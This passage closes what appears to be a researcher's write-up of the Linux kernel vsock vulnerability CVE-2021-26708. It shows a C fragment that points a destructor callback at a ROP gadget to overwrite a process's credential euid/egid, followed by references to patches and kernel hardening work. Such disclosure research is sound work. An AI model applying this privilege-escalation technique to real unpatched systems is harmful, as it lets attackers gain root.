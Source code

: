 <center><img src="/img/skb_payload.png" width="85%"></center>
<br/>

Now about the `destructor_arg` callback:

```c
    /*
     * A single ROP gadget for arbitrary write:
     *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
     * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
     */
    uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
    uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
    uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */
```

I invented a very strange arbitrary write primitive that you can see here. I couldn't find a stack pivoting gadget in `vmlinuz-5.10.11-200.fc33.x86_64` that would work with my constraints... so I performed arbitrary write in one shot :)


[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://grsecurity.net/
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers